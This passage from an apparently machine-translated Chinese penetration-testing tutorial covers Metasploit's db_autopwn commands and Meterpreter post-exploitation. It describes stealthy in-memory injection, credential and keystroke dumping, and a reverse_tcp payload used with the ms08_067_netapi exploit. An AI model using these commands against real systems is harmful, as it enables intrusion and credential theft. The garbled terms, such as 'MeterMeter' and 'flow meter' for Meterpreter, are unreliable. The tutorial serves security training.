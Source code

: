 5.  使用以下命令列出匹配的漏洞：

```
msf> db_autopwn -p -t
```

6.  使用以下命令利用匹配的漏洞：

```
 msf> db_autopwn -p -t -e
```

# 实施漏洞利用

后攻击是渗透测试的一个阶段，我们对目标系统的访问有限（或完全），现在，我们希望搜索某些文件、文件夹、转储用户凭据、远程捕获屏幕截图、从远程系统转储击键、升级权限（如果需要），并尝试使我们的访问持久化。在本节中，我们将了解 MeterMeter，它是一种先进的有效负载，以其功能丰富的后期开发能力而闻名。

# 什么是流量计？

MeterMeter 是一种高级可扩展有效负载，它使用内存中的*DLL 注入。它显著提高了 Metasploit 框架的后期开发能力。通过通过 stager 套接字进行通信，它提供了广泛的客户端 Ruby API。MeterMeter 的一些显著特点如下：*

*   **隐身**：流量计完全驻留在受损系统的内存中，不向磁盘写入任何内容。它不会产生任何新的进程；它将自己注入到被破坏的过程中。它能够轻松地迁移到其他正在运行的进程。默认情况下，MeterMeter 通过加密通道进行通信。这从法医学的角度对受损系统留下了有限的痕迹。
*   **可扩展**：可在运行时添加功能，直接通过网络加载。可以向 MeterMeter 添加新功能，而无需重新构建。`meterpreter`有效载荷无缝运行，速度非常快。

下面的屏幕截图显示了我们利用 Windows XP 目标系统上的`ms08_067_netapi`漏洞获得的`meterpreter`会话。

在使用该漏洞之前，我们需要通过发出`use payload/windows/meterpreter/reverse_tcp`命令，然后设置 LHOST 变量的值来配置 MeterMeter 有效负载。

![](img/60d8c76a-0333-43c5-898f-f848a9c9ba56.jpg)

